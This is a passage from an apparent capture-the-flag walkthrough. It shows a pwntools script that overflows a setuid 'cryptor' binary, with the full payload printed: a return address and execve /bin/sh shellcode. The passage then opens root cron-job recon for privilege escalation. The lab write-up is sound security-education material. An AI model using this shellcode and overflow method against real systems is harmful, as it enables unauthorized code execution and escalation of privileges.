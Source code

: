 ```python
actual_shellcode = """./cryptor $(python -c 'print {}') $(python -c 'print "{}"')""".format(argv1, argv2)

log.info(actual_shellcode)

# Sometimes the command didn't work. This will repeat throwing the command until we get a reynard shell
r.sendline('cd /home/reynard/private')
while True:
    r.clean()
    r.sendline(actual_shellcode)
    r.clean()
    r.sendline('id')
    output = r.recv()
    if 'reynard' in output:
        break

log.info("Shell recevied: reynard")

r.interactive()
```

And we are given our reynard shell!

```
[*] ./cryptor $(python -c 'print "A" * 100 + "\x80\xa0\x04\x08" + "C" * 12') $(python -c 'print "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x6a\x0b\x58\x89\xe3\x31\xc9\x99\xcd\x80"')
[*] Shell recevied: reynard
[*] Switching to interactive mode
uid=1000(anansi) gid=1003(webdev) euid=1002(reynard) groups=1002(reynard)
```

## Step 4

A little more recon shows the following cron job:

```
$ cat /etc/cron.d/*
* * * * * root cd /opt/.messenger; for i in *.msg; do /usr/local/bin/msg_admin 1 $i; rm -f $i; done
```

Looking at the privileges of `/opt/.messenger` we see the following:

```
$ ls -la /opt
total 12
drwxr-xr-x  3 root root 4096 May 19 23:51 .
drwxr-xr-x 21 root root 4096 Jun 17 22:05 ..
drwxrwx---  3 root dev  4096 Jun 10 22:32 .messenger
```

Examining the tail of `/etc/passwd`, we see `puck`. Looking at his `id`:

```
$ id puck
uid=1001(puck) gid=1001(puck) groups=1001(puck),1004(dev)
```
